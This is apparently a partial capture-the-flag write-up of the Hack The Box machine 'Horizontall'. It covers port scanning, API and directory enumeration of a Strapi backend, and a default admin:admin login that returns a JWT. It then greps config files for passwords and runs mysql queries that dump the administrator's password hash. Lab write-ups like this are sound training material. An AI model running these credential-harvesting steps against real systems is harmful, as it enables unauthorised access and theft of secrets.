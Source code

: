 > Author: **[wail99][author-profile]**

## Discovery

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-title: Did not follow redirect to http://horizontall.htb
|_http-server-header: nginx/1.14.0 (Ubuntu)
```

```javascript
r.a.get("http://api-prod.horizontall.htb/reviews").then((function(s) {
```

```
HTTP/1.1 404 Not Found
Server: nginx/1.14.0 (Ubuntu)
Date: Fri, 03 Sep 2021 09:12:31 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 60
Connection: close
Vary: Origin
Content-Security-Policy: img-src 'self' http:; block-all-mixed-content
Strict-Transport-Security: max-age=31536000; includeSubDomains
X-Frame-Options: SAMEORIGIN
X-XSS-Protection: 1; mode=block
Allow: HEAD, GET
X-Powered-By: Strapi <strapi.io>

{"statusCode":404,"error":"Not Found","message":"Not Found"}
```

`admin/src/containers/InputModalStepperProvider/index.js` has a `/proxy?url=`
functionality which could be abused to route to internal IPs and access private
IPs available to the server.

`http://api-prod.horizontall.htb/users` is forbidden.

```
/admin                (Status: 200) [Size: 854]
/Admin                (Status: 200) [Size: 854]
/users                (Status: 403) [Size: 60] 
/reviews              (Status: 200) [Size: 507]
/ADMIN                (Status: 200) [Size: 854]
/Users                (Status: 403) [Size: 60] 
/Reviews              (Status: 200) [Size: 507]
```

> admin:admin

```json
{
    "jwt":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjMwNjcxMTE0LCJleHAiOjE2MzMyNjMxMTR9.VjOpD6TxXsOXyZ_HQGaEi6P_lZuwh7T_fIsm4bc4XX8",
    "user":{
        "username":"admin",
        "id":3,
        "email":"admin@horizontall.htb",
        "blocked":null,
        "isAdmin":true
    }
}
```

## Footfhold

Strapi is riddled with CVEs

## Strapi to developer

Just follow the trail:

```bash
grep -ria password . | tee pw.tmp
# ./config/environments/development/database.json:        "password": "#J!:F9Zt2u"
cat config/environments/development/database.json
# {
#   "defaultConnection": "default",
#   "connections": {
#     "default": {
#       "connector": "strapi-hook-bookshelf",
#       "settings": {
#         "client": "mysql",
#         "database": "strapi",
#         "host": "127.0.0.1",
#         "port": 3306,
#         "username": "developer",
#         "password": "#J!:F9Zt2u"
#       },
#       "options": {}
#     }
#   }
# }
mysql -h'127.0.0.1' -D'strapi' -u'developer' -p'#J!:F9Zt2u' -e'show tables;'
mysql -h'127.0.0.1' -D'strapi' -u'developer' -p'#J!:F9Zt2u' -e'select * from strapi_administrator;'
# +----+----------+-----------------------+--------------------------------------------------------------+--------------------+---------+
# | id | username | email                 | password                                                     | resetPasswordToken | blocked |
# +----+----------+-----------------------+--------------------------------------------------------------+--------------------+---------+
# |  3 | admin    | admin@horizontall.htb | $2a$10$svfqkU62mjQ5UwYlf2uFKO0ueTYJ61WJ5qS/.EbdLWsXVAXoMPcX6 | NULL               |    NULL |
# +----+----------+-----------------------+--------------------------------------------------------------+--------------------+---------+
```

[author-profile]: https://app.hackthebox.eu/users/4005
